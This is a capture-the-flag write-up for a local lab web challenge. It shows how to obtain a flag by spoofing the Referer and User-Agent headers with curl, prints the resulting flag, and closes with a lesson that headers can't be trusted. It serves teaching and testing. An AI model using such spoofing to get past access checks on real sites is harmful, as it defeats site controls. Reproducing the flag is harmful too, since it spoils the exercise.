

# Solution

```
curl --referer "https://www.nsa.gov/" --user-agent "ft_bornToSec" "http://192.168.56.103/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f" | grep flag
```


When we click on `© BornToSec` at the bottom of the page, we get redirected to `http://192.168.56.103/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f`  

In the source code, we see the following lines:  
```
You must come from : "https://www.nsa.gov/".
...
Let's use this browser : "ft_bornToSec". It will help you a lot.
```  

So we must make the website believe that we landed to this page from the nsa website, and that we are accessing it through a browser named "ft_bornToSec".  

In the Headers (Network tab, index.php), we have the following:  
  

The Referer is set at `http://192.168.56.103/`, because we were redirected to this page from the home page.  
`The Referer field in the HTTP header identifies the page that led to the current web page. When a user clicks on a link on web page A to go to web page B, the referer header string for page B will contain the URL of page A.`

The browser is stored in 'User-Agent'.  
`A user agent is nothing but software agent that is acting on behalf of a user. When you use Firefox on Ubuntu Linux, it sends the “Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:59.0) Gecko/20100101 Firefox/59.0” as a user agent to the web server`

We need to modify these 2 fields.  

```
$ curl --referer Referer_URL target_URL ...
$ curl --user-agent "user-agent-name-here" target_URL
```

# Solution

```
curl --referer "https://www.nsa.gov/" --user-agent "ft_bornToSec" "http://192.168.56.103/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f" | grep flag

  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  6041    0  6041    0     0  5290k      0 --:--:-- --:--:-- --:--:-- 5899k
<center><h2 style="margin-top:50px;"> The flag is : f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188</h2><br/></center> <audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">

```  


We should not use information coming from the HTTP Headers, as they can be altered by a third-party easily.